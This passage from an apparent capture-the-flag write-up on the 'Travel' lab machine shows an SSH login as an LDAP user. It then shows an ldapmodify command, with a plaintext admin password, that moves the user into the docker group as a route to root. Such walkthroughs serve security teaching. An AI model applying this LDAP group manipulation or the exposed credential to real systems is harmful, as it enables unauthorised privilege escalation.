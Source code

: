 With the `SSH public-key` added to `LDAP`, we can login via `ssh`.

```bash
root@darkness:~# ssh lynik@10.10.10.189 -i lynik.key 
Creating directory '/home@TRAVEL/lynik'.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 03:20:51 PM UTC

  System load:                      0.09
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        206
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

          *** Travel.HTB News Flash ***
We are currently experiencing some delay in domain
replication times of about 3-5 seconds. Sorry for
the inconvenience. Kind Regards, admin

lynik@travel:~$ id
uid=5000(lynik) gid=5000(domainusers) groups=5000(domainusers)
```

We are now able to login as that user, however we currently do not have any more privileges than before. As we are able to change the gid of the user, we can add the user to either the `shadow` or the `docker` group to privesc to root.

#### Changing the gid of the LDAP user to get root

Let us change the gid of `lynik` to `docke`r to give us a `privesc path`.

```bash
lynik@travel:~$ cat /etc/group | grep docker
docker:x:117:
```

Docker's gid is `117`. Let us update the gid of `lynik` from `5000` to `117`.

```bash
lynik-admin@travel:~$ ldapmodify -h ldap.travel.htb -D cn=lynik-admin,dc=travel,dc=htb -w Theroadlesstraveled
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: gidNumber
gidNumber: 117

modifying entry "uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb"
```
